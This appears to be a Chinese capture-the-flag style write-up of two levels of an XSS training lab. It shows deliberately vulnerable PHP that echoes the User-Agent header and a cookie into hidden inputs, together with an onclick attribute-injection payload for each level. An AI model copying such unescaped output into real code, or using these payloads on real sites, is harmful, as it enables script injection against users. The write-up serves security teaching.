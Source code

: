 ### 第十二关

页面源代码里面有

<input name="t_ua" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0" type="hidden">

感觉是和十一题差不多的

抓包找到

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0)

123456" onclick="alert(1)" type="text

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

$_SERVER['HTTP_USER_AGENT'] #当前请求的 User_Agent: 头部的内容。

### 第十三关

```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_cook"  value="" type="hidden">
```

直觉是t_cook然后是cookie注入,抓包cookie后面call me maybe?看来确实是了

改cookie就行

user=123456" onclick="alert(1)" type="text

```php
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```